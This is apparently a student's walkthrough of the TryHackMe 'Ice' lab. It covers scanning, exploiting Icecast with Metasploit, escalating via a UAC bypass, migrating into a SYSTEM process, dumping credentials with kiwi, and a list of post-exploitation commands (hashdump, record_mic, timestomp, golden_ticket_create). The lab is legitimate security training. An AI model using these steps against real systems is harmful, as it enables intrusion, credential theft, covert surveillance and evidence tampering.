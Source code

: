 # Ice

## Recon
Just started off with an aggressive, all ports scan
`sudo nmap -A -vvv -p- -oN aggressivenmapallports {machine ip}`

### What port is Microsoft Remote desktop on?
Had to search the ports for this as the service name/version didn't specify (not sure if this is always the case?)
port 3389 had service 'ssl/ms-wbt-server?', which when googled found that it was microsoft remote desktop.

### What service is runing on port 8000?
Icecast streaming media server 

### What does nmap identify as the hostname of the machine? 
dark-pc

## Gain access
### What type of vulnerability is the cvedetails listing with a score of 7.5 for this version of icecast?
Couldn't actually find a listing of the version of icecast in my scan, but just tried a few vulnerabilities and found the one in question:
'execute code overflow'

### What's the cve number for this vulnerability?
CVE-2004-1561

### What's the metasploit path for this exploit?
`msfconsole`
`search icecast`
only one result, exploit/windows/http/icecast_header
`use 0`

### What is the only required setting that is blank for the exploit?
`show options`
ans is RHOSTS and the RPORT is already correct so we:
`set RHOSTS <machine ip>`
`exploit`

## Escalate
### What's the name of the shell we have now?
meterpreter
more about meterpreter https://www.offensive-security.com/metasploit-unleashed/about-meterpreter/

### What user was running the icecast process?
`help` in meterpreter shell lists out commands
`getuid` gets our current username, Dark-PC\Dark - meaning our user is Dark

### What build of Windows is the system?
`sysinfo` shows us various info including os & build / service packs
this line 'OS              : Windows 7 (6.1 Build 7601, Service Pack 1).'
shows us the answer is 7601

### finer details: what is the architecture of the process we're running?
The system architecture is x64 as shown in the sysinfo, but we don't know for certain that the process is the same
`getpid` gives us our process id, 2260
`ps` shows us a list of processes, track down 2260 and we see:
'2260  1328  Icecast2.exe          x86   1        Dark-PC\Dark  C:\Program Files (x86)\Icecast2 Win32\Icecast2.exe'
the 'arch' cvolumn shows us x86

Answer is x64 though? I guess it wanted the machine architecture and not the process

### run the local exploit suggester
in the meterpreter:
'run post/multi/recon/local_exploit_suggester'

### What's the first result?
'exploit/windows/local/ikeext_service: The target appears to be vulnerable.'
answer is 'exploit/windows/local/ikeext_service'

### background session, load the next exploit (first result from prev q)
ctrl-z to background
`use exploit/windows/local/bypassuac_eventvwr'
`show options` - shows us we just need the session number
`sessions` gets active sessions, our session id is 1
`set SESSION 1`

### Now that we've set our session number, more options in the options menu
`show options` - we now see our external ip is the lhost rather than the tryhackme one
`set LHOST {thm ip}`
`exploit`

### command getprivs lets us verify we have expanded permissions, what permission allows us to take ownership of files?`
SeTakeOwnershipPrivilege looks right, and it is

## Looting
Moving to a process that has permissions
`ps` shows all processes, we need an x64 process (to match lsass)
lsass is responsible for enfocing security policy
we also need the process user to be NT AUTHORITY for root permissions
Printer spool service matches this (suggested by the instructions)
### What is the name of the printer spool service?
spoolsv.exe
We can migrate with 
`migrate -n spoolsv.exe`
or since we already have the id from finding it in `ps` we can
`migrate 1264` which does the same thing
`getuid` shows we are now NT AUTHORITY\SYSTEM aka root

### loot the root
we're loading in kiwi, the newer version of mimikatz with
`load kiwi`
`help kiwi` shows us the options

### which command allows us to retrieve all credentials?
`creds_all`
This immediately shows us Dark's password - it pulls this from scheduled task.
### what is dark's password?
'password01!'

## Post-Exploitation - quiz
### What command dumps all the password hashes on the system?
`hashdump`
### What command allows us to watch the remote user's desktop in real time?
`screenshare`
### Record from a microphone attached to the system?
`record_mic`
### Complicate forensics by modifying timestamps (bad to do unless told to as pentest)
`timestomp`
### Create golden ticket with Mimikatz/kiwi?
`golden_ticket_create`
### Enable rdp 
`run post/windows/manage/enable_rdp`

## Extra Credit


